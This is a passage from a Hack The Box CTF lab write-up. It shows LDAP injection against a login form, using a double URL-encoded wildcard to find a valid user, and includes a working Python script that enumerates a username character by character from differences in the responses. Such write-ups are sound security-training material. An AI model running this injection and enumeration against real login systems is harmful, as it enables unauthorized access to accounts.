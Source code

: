 Knowing that the token string is stored in an "attribute", we can make the assumption that the authentication system is based on LDAP.

### Testing for LDAP Injection
___
Testing for LDAP Injection would help us validate our hypothesis that the website is using LDAP and potentially bypass the authentication system.

First, we can try to send characters that are specific to LDAP's syntax. For example, the `*` (wilcard) character:

{{<figure src="/img/htb/ctf/wc_char_noenc.png" position=center caption="Sending the * character with no encoding">}}

Sending the `*` character does not return any error message. This indicates that some characters are maybe filtered before reaching the application logic. 

If that's the case we can try URL-encoding them:

{{<figure src="/img/htb/ctf/wc_char_enc1.png" position=center caption="* character URL-encoded once">}}

{{<figure src="/img/htb/ctf/wc_char_enc2.png" position=center caption="* character double URL-encoded">}}

When we double URL-encoded our payload, we got a different response: "Cannot login". 

Earlier, when we tried admin we got the response: "User admin not found"

This means we got a valid user by using the `*` character. Knowing this, and leveraging the difference between the 2 responses, we can retrieve a username character by character.

### Username enumeration
___
This is how we'll retrieve the username:
- First we send `a*` as the username. If we get the message "Cannot login", then we know that the first letter is 'a'. If we don't, we move on to the letter 'b' by sending `b*`, so on and so forth.
- Let's say that we confirmed that the first letter is 'a'. Now we repeat the process for the second letter by sending `aa*`
- We repeat this process until we get the full username.

For this, we can use this python script:

```python
import requests
import string
import time

letters = list(string.ascii_lowercase)
url = 'http://10.10.10.122/login.php'

def guess_next_char(current_guessed_string):
    for letter in letters:
        time.sleep(0.3)
        data = {
            "inputUsername": f"{current_guessed_string}{letter}%2a",
            "inputOTP": "1234",
        }
        response = requests.post(url, data=data)
        if "Cannot login" in response.text:
            return letter

    print("END")
    exit(1)

username = ""
while True:
    username += guess_next_char(username)
```